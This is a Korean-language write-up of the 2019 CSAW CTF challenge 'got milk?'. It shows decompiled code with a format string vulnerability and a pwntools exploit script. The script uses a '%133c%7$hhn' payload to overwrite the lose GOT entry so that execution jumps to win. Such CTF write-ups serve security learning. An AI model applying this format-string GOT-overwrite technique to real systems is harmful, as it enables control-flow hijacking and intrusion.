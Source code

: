 ```yaml
---
title: "2019 CSAW CTF got milk?"
date: 2020-1-23
tags: [CSAW]
categories: [CSAW]
---
```


바이너리랑 따로 커스텀 라이브러리 파일을 준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char input[100]; // [esp+0h] [ebp-6Ch]
  int *v5; // [esp+64h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  puts("Simulating loss...");
  lose();
  printf("Hey you! GOT milk? ");
  fgets(input, 100, stdin);
  printf("Your answer: ");
  printf(input);
  lose();
  return 0;
}c
```

`libmylib.so` 의 win함수를 보면 flag.txt를 불러오는데 win함수 호출하면 된다.

```c
void win()
{
  int c; // [esp+8h] [ebp-10h]
  FILE *file; // [esp+Ch] [ebp-Ch]

  file = fopen("flag.txt", (const char *)&unk_2000);
  if ( file )
  {
    while ( 1 )
    {
      c = getc(file);
      if ( c == -1 )
        break;
      putchar(c);
    }
    fclose(file);
  }
}
```

FSB취약점이 터진다. 오프셋은 7이다. win과 lose의 하위 바이트는 실행할 때마다 일정하므로 lose함수를 win함수로 overwrite해주면 된다.

> exploit.py

```python
from pwn import *

e = ELF('./gotmilk')
libc = ELF('./libmylib.so')
p = process('./gotmilk')
win = libc.symbols['win']
lose = e.got['lose']

# $1 = {void (void)} 0xf7fd1189 <win>
# $2 = {void (void)} 0xf7fd11f8 <lose>
# lose overwrite 0xf8 -> 0x89

payload = p32(lose) + '%133c%7$hhn'

p.sendlineafter('?',payload)

p.interactive()
```

